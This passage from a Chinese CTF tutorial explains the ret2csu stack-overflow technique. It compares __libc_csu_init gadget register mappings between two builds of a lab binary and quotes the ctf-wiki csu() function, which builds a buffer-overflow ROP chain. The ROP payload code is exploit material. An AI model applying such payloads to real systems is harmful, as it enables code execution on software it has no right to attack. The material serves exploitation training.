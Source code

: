 如果你看过ctfwiki的话，里面介绍了res2csu的攻击方式与本文是有些差异,主要是`__libc_csu_init`

这个函数由于是编译的原因(PS.我也是猜的),导致了不同,这里我们可以进行对比看看

这里我们可以重新选择编译下那个程序:

`gcc -g -fno-stack-protector -no-pie  level5.c -o mylevel5`

[![](https://p2.ssl.qhimg.com/t01e14ed10baa81d2c3.png)](https://p2.ssl.qhimg.com/t01e14ed10baa81d2c3.png)

左边是我们新编译的`mylevel5`,这个函数gadget1 与ctf wiki上面的分析是一样的,gadget2 与 level5 是一样的，很神奇吧。

右边是我们上面主要分析的流程的level5

**首先是gadget1:**

ctf wiki上面是直接选择了`pop rbx`开始,所以我的`rsp`就没必要+8了,所以

`payload = p64(csu_end_addr) + p64(0) +p64(rbx)`

我们需要去掉多出来的`p64(0)`

`payload = p64(csu_end_addr)+p64(rbx)`

**其次是gadget2:**

```
4005d0:       4c 89 fa                mov    rdx,r15
  4005d3:       4c 89 f6                mov    rsi,r14
  4005d6:       44 89 ef                mov    edi,r13d
```

可以看到r15控制了rdx,r13d控制了edi,这个和我们上面分析相同，但是在ctfwiki上面的

[![](https://p3.ssl.qhimg.com/t014b264c319fa6e577.png)](https://p3.ssl.qhimg.com/t014b264c319fa6e577.png)

可以看到r13控制的rdx,r15d控制了edi

```
def csu(rbx, rbp, r12, r13, r14, r15, last):
    # pop rbx,rbp,r12,r13,r14,r15
    # rbx should be 0,
    # rbp should be 1,enable not to jump
    # r12 should be the function we want to call
    # rdi=edi=r15d
    # rsi=r14
    # rdx=r13
    payload = 'a' * 0x80 + fakeebp
    payload += p64(csu_end_addr) + p64(rbx) + p64(rbp) + p64(r12) + p64(
        r13) + p64(r14) + p64(r15)
    payload += p64(csu_front_addr)
    payload += 'a' * 0x38
    payload += p64(last)
    sh.send(payload)
    sleep(1)
```

这是ctf wiki的脚本,但是并没有具备全兼容性性, 所以我们平时一定要看清楚程序编译的`__libc_csu_init`的具体的初始化流程,然后修改下自己的csu的参数和位置。

